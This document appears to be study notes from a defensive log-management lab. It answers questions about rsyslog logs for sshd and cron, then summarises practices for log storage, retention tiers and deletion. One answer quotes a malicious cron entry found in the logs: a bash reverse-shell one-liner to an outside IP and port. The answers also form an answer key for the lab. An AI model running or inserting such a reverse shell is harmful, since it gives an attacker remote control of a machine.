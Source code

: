 
After configuring` rsyslog` for `sshd`, what username repeatedly appears in the `sshd` logs at `/var/log/websrv-02/rsyslog_sshd.log`, indicating failed login attempts or brute forcing?
- ` grep -i user rsyslog_sshd.log | sort `
- `stansimon `

What is the IP address of SIEM-02 based on the `rsyslog` configuration file `/etc/rsyslog.d/99-websrv-02-cron.conf,` which is used to monitor cron messages?
- ` cd /etc/rsyslog.d/ && cat 99-websrv-02-cron.conf`
- ` 10.10.10.101 `


Based on the generated logs in `/var/log/websrv-02/rsyslog_cron.log`, what command is being executed by the root user?
- ` cd /var/log/websrv-02 && cat rsyslog_cron.log `
- `cat rsyslog_cron.log | grep CMD `
- ` /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1") `

## Log Storage

- **Security Requirements:** Ensuring that logs are stored in compliance with organisational or regulatory security protocols.
- **Accessibility Needs:** How quickly and by whom the logs need to be accessed can influence the choice of storage.
- **Storage Capacity:** The volume of logs generated may require significant storage space, influencing the choice of storage solution.
- **Cost Considerations:** The budget for log storage may dictate the choice between cloud-based or local solutions.
- **Compliance Regulations:** Specific industry regulations governing log storage can affect the choice of storage.
- **Retention Policies:** The required retention time and ease of retrieval can affect the decision-making process.
- **Disaster Recovery Plans:** Ensuring the availability of logs even in system failure may require specific storage solutions.


## Log retention

It is vital to recognise that log storage is not infinite. Therefore, a reasonable balance between retaining logs for potential future needs and the storage cost is necessary. Understanding the concepts of Hot, Warm, and Cold storage can aid in this decision-making:

- **Hot Storage:** Logs from the past **3-6 months** that are most accessible. Query speed should be near real-time, depending on the complexity of the query.
- **Warm Storage:** Logs from **six months to 2 years**, acting as a data lake, easily accessible but not as immediate as Hot storage.
- **Cold Storage:** Archived or compressed logs from **2-5 years**. These logs are not easily accessible and are usually used for retroactive analysis or scoping purposes.

## Log deletion

Log deletion must be performed carefully to avoid removing logs that could still be of value. The backup of log files, especially crucial ones, is necessary before deletion.
